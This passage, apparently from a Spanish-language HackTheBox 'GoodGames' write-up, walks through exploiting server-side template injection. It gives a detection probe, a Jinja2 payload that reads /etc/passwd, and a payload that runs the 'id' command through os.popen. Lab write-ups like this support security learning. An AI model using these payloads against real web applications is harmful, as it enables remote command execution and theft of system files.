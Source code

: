 ```bash
# Payload para detectar SSTI
{{7*7}}
```

Y puedo ver la respuesta en el propio panel web.

![](/assets/images/HTB/Goodgames-HackTheBox/ssti.webp)

Estuve buscando información al respecto y encontré varios payloads que podrían servirme, asique probé uno de ellos para intentar leer el archivo passwd.

```bash
" {{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }} "
```

A continuación probé un payload para intentar ejecutar comandos

```bash
" {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} "
```
